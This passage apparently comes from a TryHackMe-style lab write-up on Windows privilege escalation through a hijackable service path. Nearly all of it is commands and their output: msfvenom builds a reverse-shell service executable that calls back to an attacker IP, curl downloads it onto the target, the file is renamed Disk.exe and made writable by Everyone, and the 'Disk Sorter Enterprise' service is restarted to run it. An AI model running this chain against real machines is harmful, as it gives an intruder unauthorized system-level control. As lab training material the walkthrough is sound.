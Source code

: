 The **`C:\MyPrograms`** folder allows **regular users (`BUILTIN\Users`)** to create files (`WD`) and create folders (`AD`)

Generate a malicious payload with msfvenom 

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.174.91 LPORT=4446 -f exe-service -o rev-svc2.exe
```

Transfer it to the target machine 

```
C:\Users\thm-unpriv>curl http://10.10.174.91:8888/rev-svc2.exe --output rev-svc2.exe
```

Move it to a hijackable location, then change the payload name to  `Disk.exe`

```
C:\Users\thm-unpriv>copy rev-svc2.exe C:\MyPrograms
C:\Users\thm-unpriv>cd C:\MyPrograms
C:\MyPrograms>
C:\MyPrograms>move rev-svc2.exe Disk.exe
C:\MyPrograms>icacls Disk.exe
Disk.exe NT AUTHORITY\SYSTEM:(I)(F)
         BUILTIN\Administrators:(I)(F)
         BUILTIN\Users:(I)(RX)
         WPRIVESC1\thm-unpriv:(I)(F)

Successfully processed 1 files; Failed processing 0 files

C:\MyPrograms>icacls Disk.exe /grant Everyone:F
processed file: Disk.exe
Successfully processed 1 files; Failed processing 0 files

C:\MyPrograms>icacls Disk.exe
Disk.exe Everyone:(F)
         NT AUTHORITY\SYSTEM:(I)(F)
         BUILTIN\Administrators:(I)(F)
         BUILTIN\Users:(I)(RX)
         WPRIVESC1\thm-unpriv:(I)(F)

Successfully processed 1 files; Failed processing 0 files
```

Restart the service to trigger execution.

```
C:\MyPrograms>sc stop "Disk Sorter Enterprise"

SERVICE_NAME: Disk Sorter Enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\MyPrograms>sc start "Disk Sorter Enterprise"

SERVICE_NAME: Disk Sorter Enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 688
```